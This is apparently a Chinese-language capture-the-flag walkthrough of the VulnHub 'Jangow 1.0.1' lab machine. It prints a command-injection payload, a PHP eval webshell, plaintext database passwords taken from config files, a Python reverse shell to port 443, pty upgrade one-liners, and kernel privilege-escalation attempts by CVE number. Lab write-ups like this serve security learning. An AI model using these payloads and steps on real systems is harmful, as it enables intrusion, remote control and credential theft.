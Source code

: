 [https://www.vulnhub.com/entry/jangow-101,754/](https://www.vulnhub.com/entry/jangow-101,754/)

xray扫描得知存在命令执行

```
[Vuln: cmd-injection]
Target           "http://192.168.56.118/site/busque.php?buscar="
VulnType         "injection/cmd"
Payload          "\nexpr 924417132 + 879096350\n"
Position         "query"
ParamKey         "buscar"
ParamValue       "\nexpr 924417132 + 879096350\n"
feature          "1803513482"
type             "echo_based"
```

写入webshell,`echo '<?php eval($_POST[a]);?>' > a.php`,权限为`www-data`

`/var/www/html/.backup`

```php
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

`/var/www/html/site/wordpress/config.php`

```php
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```

但用户名和密码均不正确...

`/home/jangow01/user.txt`

```
d41d8cd98f00b204e9800998ecf8427e
```

cmd5反查得知其为空字符的md5

反弹shell,发现存在端口限制,试了试80,443等常用端口,发现443端口不受影响

```python
import socket
import subprocess
import os
ip="192.168.56.1"
port=443
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((ip,port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

尝试切换用户`jangow01`,返回`su: must be run from a terminal`,需要将反弹回来的shell转换为交互式的shell

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`

2. `python3 -c "__import__('subprocess').call(['/bin/bash'])"`

建议使用第一种方法,成功利用密码`abygurl69`切换到用户`jangow01`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112021941801.png)

靶机环境为`ubuntu16.04`,直接用`CVE-2021-3156`尝试提权,提示`AssertionError: glibc is too old. The exploit is relied on glibc tcache feature. Need version >= 2.26`

换个`CVE-2016-5195`,好像宕机了qwq,在真实渗透环境已经gg了...

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112021927760.png)

尝试用`CVE-2017-16995`提权,成功提权

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112022112151.png)

ufw配置情况

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112022120567.png)
